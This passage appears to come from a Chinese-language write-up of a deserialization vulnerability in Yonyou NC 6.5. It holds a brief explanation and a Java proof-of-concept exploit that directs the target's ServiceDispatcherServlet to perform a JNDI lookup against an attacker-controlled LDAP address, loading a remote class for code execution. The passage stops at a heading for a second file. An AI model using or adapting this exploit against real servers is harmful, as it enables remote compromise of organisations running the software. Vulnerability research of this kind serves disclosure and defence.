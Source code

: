 可以看到该方法中将 ii
序列化输出，发送到服务端，然后获取服务端返回的反序列化结果并回显到客户端。

### poc

![mov.gif](resource/用友nc6.5反序列化漏洞/media/rId44.gif)

> explpit.java

    import nc.bs.framework.common.NCLocator;

    import java.util.Properties;

    public class poc {

        public static void attack(String url, String jndipath) {
            Properties env = new Properties();
            if (!url.startsWith("http")) {
                url = "http://" + url;
            }
            env.put("SERVICEDISPATCH_URL", url + "/ServiceDispatcherServlet");
            NCLocator locator = NCLocator.getInstance(env);
            locator.lookup(jndipath);
        }

        public static void main(String[] args) {
            attack("http://target", "ldap://ip:port/classname");
        }
    }

> remote.java
